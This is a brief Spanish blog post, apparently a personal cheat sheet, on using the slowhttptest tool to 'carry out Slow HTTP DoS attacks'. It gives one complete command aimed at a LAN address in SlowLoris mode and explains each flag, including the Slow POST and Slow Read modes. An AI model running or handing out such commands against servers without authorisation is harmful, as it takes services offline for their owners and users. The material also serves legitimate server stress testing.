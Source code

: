 ```yaml
---
layout: post
title: "slowhttptest"
date: 2014-01-28 17:53
comments: true
categories: 
---
```

Efectuar ataques Slow Http Dos 

>$ slowhttptest -c 1000 -H -g -o ataque -i 10 -r 200 -t GET -u http://192.168.1.154 -x 30 -p 3 

c (Número de conexiones con límite en 65539) 

H (ataque modo SlowLoris enviando paquetes sin completar)

B (ataque modo Slow POST sin terminar de enviar el cuerpo del mensaje)

X (ataque modo Slow Read de lectura de las respuestas http lentas)

g (Generr estadistica en formato html) 

o (Archivo de salida) 

i (Intervalo de datos por segundo por conexión) 

r (Conexiones por segundo) 

t (Cabecera a utilizar) 

u (URL de destino) 

x (Longitud máxima de los datos) 

p (Tiempo de espera de respuesta http una vez el servidor se considera inaccesible)


